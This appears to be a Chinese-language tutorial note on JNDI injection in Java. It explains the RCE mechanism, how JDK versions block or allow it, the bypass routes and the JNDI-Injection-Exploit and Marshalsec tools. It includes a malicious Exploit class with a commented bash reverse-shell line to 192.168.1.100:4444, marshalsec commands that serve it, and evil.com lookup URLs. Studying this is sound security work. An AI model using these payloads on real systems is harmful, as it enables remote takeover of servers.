


JNDI注入攻击利用
JNDI注入原理¶
- 漏洞本质：lookup()参数可控 正常代码： 漏洞代码：
- 攻击效果：远程代码执行（RCE）
攻击者搭建一个恶意服务器，当目标应用调用 lookup("ldap://evil.com/exploit") 时：
- 目标应用连接到攻击者的服务器
- 服务器返回一个指向恶意Java类的引用
- 目标应用下载并执行该类
- 攻击者的代码（如弹计算器、反弹shell）在目标服务器上运行
- 触发条件：lookup() 的参数必须来自用户输入（或能被攻击者控制的数据源）
Reference + trustURLCodebase¶
- Reference（引用） 作用： 告诉JNDI：“去这个 URL 下载 class 文件”
- trustURLCodebase（安全开关）
默认状态：
- JDK 8u121 之前：默认允许远程加载类（trustURLCodebase=true）
- JDK 8u121 及之后：默认禁止（trustURLCodebase=false） 高版本绕过（你暑假再学，先知道有这回事）：
- LDAP 协议在某些版本仍有绕过方式
- 高版本需要配合反序列化 gadget 等其他技术
- 攻击流程
JNDI注入流程图（简化版）¶
攻击者发送恶意参数
|
|ldap://攻击者控制的域名/ecploit
|
服务端接收参数并访问url
|
|ctx.lookup("ldap://攻击者控制的域名/ecploit");
|
攻击者服务器返回指向恶意类的Reference给服务端
|
|Reference 指向：http://evil.com/Exploit.class
|
服务端按照Reference指向的url去下载Exploit.class
|
JVM加载并实例化恶意类
|
RCE
三种注入方式¶
版本限制时间线¶
jdk8u121：com.sun.jndi.rmi.object.trustURLCodebase 默认值从 true 改为 false - RMI+Reference被限制 - LDAP天然支持返回 javaReference 条目，JDK 实现时最初没有同步加上安全开关 jdk8u191：com.sun.jndi.ldap.object.trustURLCodebase 也默认设为 false - LDAP+Reference也被限制
RMI+Reference（纯远程类加载）¶
限制点：trustURLCodebase=false 后，JNDI 不再下载远程 classLDAP+Reference（换协议绕过）¶
为什么 LDAP 能晚一点被限制： - 因为 LDAP 协议天然支持返回javaReference 条目，JDK 实现时最初没有同步加上安全开关。 - 8u191 后才把 com.sun.jndi.ldap.object.trustURLCodebase 也默认设为 false
LDAP+Serialized（换攻击链绕过）¶
核心原理：
关键点：trustURLCodebase 只控制 “URL 类加载器是否允许从远程加载类”， 而 readObject() 是 Java 原生反序列化，跟远程类加载没有关系。方式选择决策图¶
目标 JDK 版本
│
├─ ≤ 8u121
│ └─ 直接用 RMI + Reference（最简单）
│
├─ 8u121 < version ≤ 8u191
│ └─ 用 LDAP + Reference
│
├─ 8u191 < version ≤ 8u241（近似）
│ └─ 用 LDAP + Serialized（需要 CC 链）
│
└─ ≥ 11 / 17
└─ LDAP + Serialized + 绕过 JEP 290（需要更高阶技巧）
JNDI利用工具¶
JNDI-Injection-Exploit¶
功能： - 自动启动HTTP服务（存放恶意类） - 自动启动RMI服务（端口1099） - 自动启动LDAP服务（端口1389）
核心优势 | 特性 | 说明 | |------|------| | 一键生成 | 一条命令输出所有可用的 JNDI 地址 | | 自动托管 | 恶意类自动生成并托管，无需手动编写 Java 代码 | | 双协议支持 | 同时输出 RMI 和 LDAP 两种协议的利用地址 |
适合场景：快速验证漏洞是否存在、快速获得反弹Shell
基本命令
执行后，工具会自动输出多个可用的JNDI地址

注意事项 - 端口占用：确保1099（RMI）、1389（LDAP）、8180（HTTP）端口未被占用 - JDK版本限制：JDK 8u191以上版本，LDAP+Reference方式会失效，需要结合反序列化利用 - 命令格式：复杂命令（如bash）需要加双引号Marshalsec¶
功能 一个“轻量级指路服务”工具，只负责启动RMI/LDAP服务，回答JNDI查询，告诉受害者“你要的类在这个HTTP地址”。恶意类需要自己准备。 核心特点 | 特性 | 说明 | |------|------| | 轻量灵活 | 只启动协议服务，不生成恶意类 | | 高度可控 | 恶意类的逻辑完全自定义 | | 学习价值高 | 帮助理解 JNDI 注入的每一步 | | 多协议支持 | 支持 RMI、LDAP、Hessian 等多种 |
适合场景：理解底层原理、自定义复杂攻击逻辑、学习JNDI工作机制
使用流程 1. 编写恶意类
// 注意：类名要与文件名一致
public class Exploit {
// 静态代码块：类加载时自动执行
static {
try {
// Windows弹计算器
Runtime.getRuntime().exec("calc");
// Linux反弹Shell用下面这行
// Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/192.168.1.100/4444 0>&1"});
} catch (Exception e) {
e.printStackTrace();
}
}
}
# LDAP服务（推荐，兼容性更好）
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar \
marshalsec.jndi.LDAPRefServer \
"http://v:8080/#Exploit" 1389
# RMI服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar \
marshalsec.jndi.RMIRefServer \
"http://192.168.162.1:8080/#Exploit" 1099
两种工具对比¶
| 对比项 | JNDI-Injection-Exploit | Marshalsec |
|---|---|---|
| 恶意类生成 | ✅ 自动生成 | ❌ 需手动编写 |
| HTTP服务 | ✅ 自动启动 | ❌ 需手动启动（如 python -m http.server） |
| 协议服务 | ✅ 自动启动 RMI + LDAP | ✅ 可单独启动 RMI 或 LDAP |
| 学习曲线 | 低，开箱即用 | 中，需理解每一步 |
| 灵活性 | 低，只能执行命令 | 高，可自定义任意 Java 逻辑 |
| JAR包大小 | 较大（~10MB） | 较小（~2MB） |